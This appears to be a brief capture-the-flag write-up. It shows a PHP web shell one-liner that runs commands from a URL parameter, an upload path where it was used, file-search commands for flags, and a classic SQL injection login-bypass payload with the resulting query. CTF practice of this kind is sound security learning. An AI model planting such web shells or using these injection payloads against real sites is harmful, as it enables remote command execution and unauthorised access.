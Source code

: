 ## Gallery
web shell oneliner
```php
$ <?php echo system($_GET["cmd"]); ?>
```
in path `/uploads/____/test.php?cmd=`
```j
find+../../+-name+*flag*`
cat+../../*/*flag*
```

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
as if to say
```erlang
$sql = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```
## Simple Question of Logic 2

